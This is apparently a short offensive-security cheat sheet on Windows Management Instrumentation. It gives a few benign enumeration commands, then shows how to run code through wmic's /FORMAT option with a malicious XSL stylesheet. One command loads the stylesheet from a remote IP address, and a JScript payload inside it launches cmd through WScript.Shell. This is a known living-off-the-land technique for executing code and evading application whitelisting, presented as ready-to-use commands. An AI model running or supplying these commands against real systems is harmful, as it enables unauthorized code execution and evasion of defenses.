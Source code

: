 ## Windows Management Instrumentation (WMI)

is the infrastructure for management data and operations on Windows-based operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers

### Enum

```
Get-WmiObject -Class Win32_Bios | Format-List -Property *
```

```
Get-CimInstance -ClassName Win32_BIOS
```

```

```

### Run xml  file

```cmd
wmic os get /FORMAT:"nooranet.xsl"
```

```cmd
wmic os get /FORMAT:.\nooranet
```

```cmd
wmic os get /FORMAT:"https://192.168.1.46/nooranet.xsl"
```

* `xsl`
    An XSL file is a style sheet that can be used to transform XML documents into other document types and to format the output.

* `nooranet.xsl`
  
  ```xml
  <?xml version='1.0'?>
  <stylesheet
  xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
  xmlns:user="placeholder"
  version="1.0">
  <output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("cmd");
    ]]> </ms:script>
  </stylesheet>
  ```
